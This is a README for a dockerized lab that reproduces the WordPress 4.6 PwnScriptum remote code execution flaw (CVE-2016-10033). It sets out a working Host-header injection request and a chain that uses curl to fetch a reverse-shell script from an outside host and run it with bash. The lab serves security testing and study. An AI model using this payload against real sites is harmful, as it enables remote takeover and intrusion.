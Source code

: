 # Wordpress 4.6 Remote Code Execution Vulnerability（PwnScriptum）

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Environment setup

```
docker-compose build
docker-compose up -d
```

Because Mysql initialization needs a little time, so please wait. After initialization succeeds, visit the site, set the administrator username and password to use it (the database is configured and not automatically updated).

## Exploit

Send the following packet, and you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

We need to meet the following requirements to exploit this vulnerability:

1. The executed command cannot contain some special characters, such as `:`, `'`,`"`, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need know an existing user username

In order to solve these problems, the vulnerability author came up with $`substr{0}{1}{$spool_directory}}` instead of `/`, using `${substr{10}{1}{$tod_log} }` method of replacing spaces.

However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to `/tmp` directory by `curl -o /tmp/rce example.com/shell.sh`.

Therefore, the expliot process is follows:

1. Write the exp of reverse shell and put it on a site. The exp have this following requirements:
 - the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
 - Access to this page can't be redirected because the parameter for follow redirect is `-L` (uppercase).

2. Splice the command`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.

3. Convert the spaces and `/` in the command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`.

4. Produce the HTTP Host header:`target(any -froot@localhost -be ${run{command}} null)`.

5. Send these two packets in order.

Here is [expliot.py](exploit.py)，change `target` to your target site，change `user` to an exist user name，change `shell_url` to your payload site.

Execute to get the shell:

![](1.png)
